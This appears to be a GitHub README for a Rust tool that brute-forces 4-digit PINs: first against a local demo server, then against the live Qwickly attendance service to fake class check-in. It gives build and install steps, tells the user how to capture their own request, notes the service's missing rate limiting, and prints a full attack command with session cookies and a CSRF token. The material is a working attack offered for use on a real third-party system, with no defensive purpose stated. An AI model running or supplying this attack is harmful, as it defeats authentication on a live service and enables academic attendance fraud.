 # Crack Remote Pin
Rust example of cracking a 4-digit pin on a remote server.  

The cracking HTTP requests are executed asynchronously, so the futures will take some time to build up to 500 in a vector and then executed at once roughly (there are probably better ways to do this).  

1. Start the pin server
```
cd pin_server
cargo run
```

2. Crack the pin on the running server
```
cd cracker
cargo run
```

## Qwickly Attendance Crack
The qwickly attendance checker asks for a 4-digit pin, which a lecturer will share with the class on a screen. Luckily qwickly don't have any spam-defense mechanisms at all, can make 500 POST requests with different pins in a short space of time without it preventing it.

Build and install on Linux:
```
cd qwickly_cracker
cargo build --release
sudo mv ./target/release/qwickly_cracker /usr/local/bin
qwickly_cracker --help
```

The request needs to be crafted properly though to post without hitting an error - the referer header includes a unique code for each student:

1. Visit Qwickly attendance tracker page and just make a request for pin "0001" or any number, have "network" tab of browser tools open and "copy as cURL" the request

2. Take the required fields out of that(The headers) and use it in the command. Make sure to replace "0001" with "{pin}" in the `data-no-pin` content, for example:

```
qwickly_cracker --referer 'https://www.qwickly.tools/attendance/takerecord/?code=BuYAp0o5b11JNFonnZtFrqWxYX2xAI3B&' --user-agent 'Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0' --cookie 'AWSALB=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; AWSALBCORS=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; sessionid=if3l9orgzd7ydeah0baqn7ynlg2anp1w' --data-no-pin 'csrfmiddlewaretoken=MpUgZaDVxhfOq41BuGIrIGHXzUz8pfWrLiApCa7XM7OTISwq50dx7hvLQnvYiTZV&check_in_pin={pin}&student_check_in=Check+In&check_in_id='
```

3. The default pin range start and end is from 0000 to 9999 inclusive. The default `pin_chunk_size` is 500, meaning that 500 pin requests will be gathered in a vector of futures and then executed. Once a successful pin is found, qwickly will stop returning "Incorrect" in the HTML content, the 500 chunk will complete and the first pin cracked in that chunk is the correct pin and will be printed.
